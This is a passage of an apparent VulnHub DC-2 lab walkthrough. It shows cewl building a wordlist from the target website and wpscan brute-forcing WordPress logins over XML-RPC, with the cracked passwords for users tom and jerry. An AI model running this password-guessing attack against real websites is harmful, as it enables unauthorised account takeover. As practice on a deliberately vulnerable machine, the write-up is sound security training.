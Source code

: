 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Memory used: 724 KB
[+] Elapsed time: 00:00:01

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Users discovered: tom, jerry, admin

Creating a password file from the website with cewl.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cewl -d 2 -m 5 -w docswords.txt http://dc-2
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@setrus:~# cat docswords.txt 
vitae
luctus
content
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Trying to bruteforce user tom, jerry and admin

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/dc-2# wpscan --url http://dc-2 --passwords docswords.txt -U tom
... snip...
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - tom / parturient      


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Loggin in with user tom :  parturient
![Atl Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC%3A2/dc2.png)
Bruteforce user jerry

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

root@setrus:~# wpscan --url http://dc-2 --passwords docswords.txt -U jerry

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - jerry / adipiscing       
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
